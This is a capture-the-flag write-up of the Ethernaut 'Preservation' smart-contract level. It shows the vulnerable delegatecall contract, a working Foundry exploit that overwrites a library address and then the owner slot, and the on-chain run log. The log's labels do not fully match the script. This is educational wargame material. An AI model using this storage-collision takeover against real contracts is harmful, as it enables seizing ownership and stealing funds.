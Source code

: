 ```yaml
---
layout: post
title: "[Ethernaut] Preservation"
tags: blockchain ethernaut foundry delegatecall storage
---
```


# Analysis

---

The goal is

1. claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

In the Preservation contract, the `setFirstTime()` and `setSecondTime()` functions use delegatecall to update the `storedTime`.

As demonstrated in the [Delegation](https://0o3q.github.io/2025/04/19/delegation) challenge, `delegatecall` allows a called contract to modify the storage of the calling contract.

As can be inferred from the hint, storage is accessed by slot number rather than by variable name when using `delegatecall`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Preservation.sol";
import "forge-std/Script.sol";

contract Ex {
    address public AAAA;
    address public BBBB;
    address public owner;

    function setTime(uint256 _owner) public {
        owner = address(uint160(_owner));
    }
}

contract PreservationSol is Script {
    Preservation public pv_ = Preservation(0xD7cfE396981D91a4a11CB7261739F32F36cb9017);

    function run() external {
        vm.startBroadcast();

        Ex ex = new Ex();

        console.log("Before owner: ", pv_.owner());
        console.log("Before timeZone1Library address: ", pv_.timeZone1Library());

        pv_.setFirstTime(uint256(uint160(address(ex))));
        console.log("First set: ", pv_.timeZone1Library());

        pv_.setFirstTime(uint256(uint160(msg.sender)));
        console.log("After owner: ", pv_.owner());

        vm.stopBroadcast();
    }
}
```

We can first overwrite the `timeZone1Library` variable with the address of a malicious contract, and then use it to overwrite the `owner` variable.

```bash
$ forge script script/PreservationSol.sol:PreservationSol --account mingw --sender 0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514 --rpc-url kairos --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Before owner:  0x7B587eD6A41030bEFD2FE6437a895D22260F7132
  Before timeZone1Library address:  0xf24b27D4D691d05b59fb441d4df8374480D5E9Ac
  After timeZone1Library address:  0x21dA2776E60d5FAB93773eE66b547c54038350C4
  After timeZone1Library address:  0x21dA2776E60d5FAB93773eE66b547c54038350C4
  After owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 1001

Estimated gas price: 52.5 gwei

Estimated total gas used for script: 327554

Estimated amount required: 0.017196585 ETH

==========================
Enter keystore password:

##### 1001
✅  [Success] Hash: 0xbe01e24783ab42cd7662f2f25ed08617ff5d23ab1cf049118da11b30657d30e6
Contract Address: 0x21dA2776E60d5FAB93773eE66b547c54038350C4
Block: 185739056
Paid: 0.0065975525 ETH (239911 gas * 27.5 gwei)

##### 1001
✅  [Success] Hash: 0x4d6913ae6d8cb717ff25cd1d5fd1bb3f836b1678b435e445b030ec1f8c4f4fe4
Block: 185739056
Paid: 0.000976855 ETH (35522 gas * 27.5 gwei)

##### 1001
✅  [Success] Hash: 0x4442bf1e8285f7fbf1b46c906cfc03367926bdd3ac633b8c7fe653c8e2c63481
Block: 185739056
Paid: 0.0009108 ETH (33120 gas * 27.5 gwei)

✅ Sequence #1 on 1001 | Total Paid: 0.0084852075 ETH (308553 gas * avg 27.5 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```